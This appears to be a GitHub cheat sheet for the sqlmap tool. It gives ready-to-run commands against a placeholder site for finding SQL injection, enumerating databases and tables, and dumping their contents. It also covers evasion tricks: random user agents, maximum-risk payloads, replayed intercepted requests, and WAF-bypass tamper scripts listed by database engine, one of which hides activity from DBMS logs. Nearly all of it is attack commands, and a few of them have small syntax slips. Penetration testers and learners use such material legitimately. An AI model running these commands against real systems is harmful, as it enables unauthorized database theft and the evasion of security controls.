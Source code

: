 SQLMAP

Methodology:

*command to scan for vulnerabilities and very versbose option

    $sqlmap -u <target URL> -v 4

**scan with parameter id

    $sqlmap -u http://target.tld/product.php?id=12 -p id -v 4


***scan and enumerate database

    $sqlmap -u http://target.tld/product.php?id=12 -p id --dbs -v 4


****enumerate the list of tables in a database: 

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> --tables -v 4

*****dump data from a table:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump -v 4

------------------------------------------------------------------------------------------------------------------------------------------

Tricks:

-Use Random User-Agent:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump --random-agent -v 4 


-Using the most dangerous queries (when the web application is in demo mode)

    --risk : 1-3 => 3
    --level: 1-5 => 5
    $sqlmap -u http://target.tld/product.php?id=12 -p id --risk 3 --level 5



-send data with sqlmap request and change HTTP method:

    $sqlmap -u http://target.tld/product.php?id=12 -p id --data="username:admin&password="admin" --method="POST"

-delay trick:
time delay => --delay=<TIME>

    $sqlmap -u http://target.tld/product.php?id=12 -p id --level 5 --delay=10

-add HTTP header manually :
--headers=""

    $sqlmap -u http://target.tld/product.php?id=12 -p id --headers="HOST:target.tld  \nauthorization:bearer ...\nuser-agent:aaaaa\n ...." --cookie="PHPSESSIONID=...;"


-add a intercepted HTTP file : 

    intercept a HTTP request and save it in a file(data.txt) and use sqlmap
    data.txt:
    POST /target.tld/login.php?id=2 HTTP/1.1
    Host: target.tld
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: multipart/form-data; 
    Origin: http://target.tld
    Connection: keep-alive
    Referer: http://target.tld
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    
    
    
    username=admin&password=admin
    use sqlmap:
    $sqlmap -r data.req -p username --batch




-login MySQL server with sqlmap:

    sqlmap -d "mysql://username:password@TARGET:3306/testDB"




-bypass WAF:

--tamper 
 
    $sqlmap -u http://target.tld/product.php?id=12 -p id --tamper=<SCRIPT>

        # All scripts
    --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # General scripts
    --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # Microsoft access
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # Microsoft SQL Server
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # MySQL
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
    
    # Oracle
    --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
    
    # PostgreSQL
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
    
    # SAP MaxDB
    --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
    
    # SQLite
    --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor




    General tamper option and tamper's list

    tamper=name_of_the_tamper
    
    Tamper 	                            Description
    apostrophemask.py 	            Replaces apostrophe character with its UTF-8 full width counterpart
    apostrophenullencode.py 	    Replaces apostrophe character with its illegal double unicode counterpart
    appendnullbyte.py 	            Appends encoded NULL byte character at the end of payload
    base64encode.py 	            Base64 all characters in a given payload
    between.py 	                    Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'
    bluecoat.py 	                Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator
    chardoubleencode.py 	        Double url-encodes all characters in a given payload (not processing already encoded)
    commalesslimit.py 	            Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'
    commalessmid.py 	            Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'
    concat2concatws.py 	            Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'
    charencode.py 	                Url-encodes all characters in a given payload (not processing already encoded)
    charunicodeencode.py 	        Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)
    equaltolike.py 	                Replaces all occurances of operator equal ('=') with operator 'LIKE'
    escapequotes.py 	            Slash escape quotes (' and ")
    greatest.py 	                Replaces greater than operator ('>') with 'GREATEST' counterpart
    halfversionedmorekeywords.py 	Adds versioned MySQL comment before each keyword
    ifnull2ifisnull.py 	            Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'
    modsecurityversioned.py 	    Embraces complete query with versioned comment
    modsecurityzeroversioned.py 	Embraces complete query with zero-versioned comment
    multiplespaces.py 	            Adds multiple spaces around SQL keywords
    nonrecursivereplacement.py 	    Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace("SELECT", "")) filters
    percentage.py 	                Adds a percentage sign ('%') infront of each character
    overlongutf8.py 	            Converts all characters in a given payload (not processing already encoded)
    randomcase.py 	                Replaces each keyword character with random case value
    randomcomments.py 	            Add random comments to SQL keywords
    securesphere.py 	            Appends special crafted string
    sp_password.py 	                Appends 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs
    space2comment.py 	            Replaces space character (' ') with comments
    space2dash.py 	                Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n')
    space2hash.py 	                Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')
    space2morehash.py 	            Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')
    space2mssqlblank.py         	Replaces space character (' ') with a random blank character from a valid set of alternate characters
    space2mssqlhash.py 	            Replaces space character (' ') with a pound character ('#') followed by a new line ('\n')
    space2mysqlblank.py 	        Replaces space character (' ') with a random blank character from a valid set of alternate characters
    space2mysqldash.py             	Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n')
    space2plus.py 	                Replaces space character (' ') with plus ('+')
    space2randomblank.py         	Replaces space character (' ') with a random blank character from a valid set of alternate characters
    symboliclogical.py             	Replaces AND and OR logical operators with their symbolic counterparts (&& and
    unionalltounion.py             	Replaces UNION ALL SELECT with UNION SELECT
    unmagicquotes.py 	            Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work)
    uppercase.py 	                Replaces each keyword character with upper case value 'INSERT'
    varnish.py 	                    Append a HTTP header 'X-originating-IP'
    versionedkeywords.py 	        Encloses each non-function keyword with versioned MySQL comment
    versionedmorekeywords.py     	Encloses each keyword with versioned MySQL comment
    xforwardedfor.py 	            Append a fake HTTP header 'X-Forwarded-For'
    
